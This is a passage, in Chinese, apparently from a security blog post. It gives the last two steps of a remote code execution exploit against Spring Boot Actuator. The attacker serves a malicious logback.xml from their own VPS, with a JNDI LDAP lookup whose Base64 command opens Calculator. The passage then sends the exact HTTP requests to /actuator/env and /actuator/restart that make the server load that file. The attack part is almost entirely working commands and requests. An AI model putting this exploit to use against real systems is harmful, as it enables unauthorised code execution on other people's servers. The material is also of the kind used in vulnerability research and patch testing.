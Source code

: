 ##### 二：托管 xml 文件

在自己控制的 vps 机器上开启一个简单 HTTP 服务器

```php
python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```

在根目录放置以 `xml` 结尾的文件，比如 `logback.xml`，示例如下：

```php
<configuration>
  <insertFromJNDI env-entry-name="ldap://your-vps-ip:1389/TomcatBypass/Command/Base64/b3BlbiAtYSBDYWxjdWxhdG9y" as="appName" />
</configuration>
```

##### 三：触发漏洞

```php
POST /actuator/env HTTP/1.1
Content-Type: application/json

{"name": "logging.config", "value": "http://your-vps-ip/logback.xml"}
POST /actuator/restart HTTP/1.1
Content-Type: application/json
Content-Length: 0
```

文章首发在自己博客，原文地址为：<https://landgrey.me/blog/21/>